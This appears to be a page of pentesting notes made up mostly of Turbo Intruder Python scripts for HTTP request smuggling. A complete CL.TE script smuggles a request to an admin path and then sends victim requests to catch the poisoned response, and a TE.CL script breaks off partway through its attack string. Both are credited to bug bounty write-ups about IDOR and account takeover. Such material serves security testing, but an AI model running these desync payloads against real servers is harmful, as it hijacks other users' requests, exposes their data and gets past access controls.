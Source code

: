 ### CL.TE

From [https://hipotermia.pw/bb/http-desync-idor](https://hipotermia.pw/bb/http-desync-idor)

```python
def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0,
                           engine=Engine.THREADED,
                           )
    engine.start()

    attack = '''POST / HTTP/1.1
 Transfer-Encoding: chunked
Host: xxx.com
Content-Length: 35
Foo: bar

0

GET /admin7 HTTP/1.1
X-Foo: k'''

    engine.queue(attack)

    victim = '''GET / HTTP/1.1
Host: xxx.com

'''
    for i in range(14):
        engine.queue(victim)
        time.sleep(0.05)

def handleResponse(req, interesting):
    table.add(req)
```

### TE.CL

From: [https://hipotermia.pw/bb/http-desync-account-takeover](https://hipotermia.pw/bb/http-desync-account-takeover)

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0,
                           engine=Engine.THREADED,
                           )
    engine.start()

    attack = '''POST / HTTP/1.1
Host: xxx.com
Content-Length: 4
Transfer-Encoding : chunked
```